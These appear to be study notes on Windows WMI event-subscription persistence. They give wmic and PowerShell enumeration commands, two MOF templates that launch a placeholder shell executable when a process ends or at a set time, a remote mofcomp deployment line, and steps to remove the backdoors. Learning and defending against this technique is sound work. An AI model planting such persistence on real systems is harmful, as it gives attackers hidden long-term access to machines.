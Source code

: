 # Living off the Land

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

## 01 - Command Prompt

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

List the Root namespace

```
C:\> wmic /namespace:\\root path __namespace
```

## 02 - Powershell

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

List the Root namespace

```powershell
PS C:\> Get-CimClass

PS C:\> Get-CimClass -Namespace ROOT/CIMV2 | Where-Object CimClassName -like Win32*

PS C:\> Get-WmiObject -namespace "root" -class "__Namespace" | select Name

PS C:\> Get-CimInstance -namespace "root" -class "__Namespace" | Select-Object Name
```

List the names for the Subscription

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -list

PS C:\> Get-CimInstance -Namespace root\Subscription -list
```

Display the information of the __EventFilter class and it's ability to trigger any `MSFT_SCMEventLogEvent`

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __EventFilter

PS C:\> Get-CimInstance -Namespace root\Subscription -Class __EventFilter
```

- Same thing with the __EventConsumer that has the `SCM Event Log Consumer` for an event that will happen

```powershell
PS C:\> Get-WmiObject -Namespace "root\Subscription" -Class __EventConsumer

PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

`$ cat terminatecalcapptorunshell.mof`

---

```
#pragma namespace ("\\\\.\root\\subscription)

instance of CommandLineEventConsumer as $Cons {
    Name = "TestConsumer"
    CommandLineTemplate="C:\\path\\to\shell.exe";
};

Instance of __EventFilter as $Filt {
    Name = "TestFilter";
    Query = "Select * From __InstanceDeletionEvent WITHIN 5 "
            "Where TargetInstance ISA \ "Win32_Process\" "
            "AND TargetInstance.Name = \"win32calc.exe\"";
    QueryLanguage = "WQL";
    EventNamespace = "root\\subscription";
};

Instance of __FilterToConsumerBinding {
    Filter = $Filt;
    Consumer = $Cons;
}
```

`C:\> mofcomp terminatecalcapptorunshell.mof`

`$ cat wmitimedevent.mof`

---

```
#pragma namespace ("\\\\.\root\\subscription)  
  
instance of CommandLineEventConsumer as $Cons {  
    Name = "TestConsumer"  
    CommandLineTemplate="C:\\path\\to\shell.exe";  
};  
  
Instance of __EventFilter as $Filt {  
    Name = "TestFilter";  
    Query = "Select * From __InstanceModificationEvent "  
            "Where TargetInstance ISA \ "Win32_LocalTime\" "  
            "AND TargetInstance.Hour = 1 "  
            "AND (TargetInstance.Minute = 24 "  
            "OR TargetInstance.Minute = 25 "  
            "OR TargetInstance.Minute = 26) "  
            "AND TargetInstance.Second = 30 ";  
    QueryLanguage = "WQL";  
    EventNamespace = "root\\cimv2";  
};  
  
Instance of __FilterToConsumerBinding {  
    Filter = $Filt;  
    Consumer = $Cons;  
}
```

- Execute the MOF script.

`C:\> mofcomp wmitimedevent.mof`

- You can execute it remotely without touching the disk.

`C:\> mofcomp -N \\<IP>\root\subscription wmitimedevent.mof`

### 2.1 - Clean up the backdoors

- Query the namespace for `__EventFilter`

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

`C:\> wmic /namespace:"\\root\subscription" path __EventFilter where name="TestFilter" delete`

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose
```

- Query to double check if it's deleted

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

```
C:\> wmic /namespace:"\\root\subscription" path __FilterToConsumerBinding where Filter="__EventFilter.Name='TestConsumer'" delete
```

TODO: Convert this to Get-CimInstance

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path like 'TestConsumer'" | Remove-WMIObject
```

---
## References

- [Pentestlab Blog: Persistence WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

- [Cybdefnp: Malware Persistence in WMI](https://cybdefnp.wordpress.com/2020/07/05/malware-persistence-in-wmi/)

- [PDQ: Powershell Guide Get-CimInstance and Get-WmiObject](https://www.pdq.com/blog/powershell-guide-get-ciminstance-and-get-wmiobject/)

- [in.security: An intro into abusing and identifying WMI Event Subscriptions for persistence](https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/)

- [SS64 Get-CimInstance](https://ss64.com/ps/get-ciminstance.html)

- [FuzzySecurity: Windows Userland Persistence Fundamentals](https://fuzzysecurity.com/tutorials/19.html)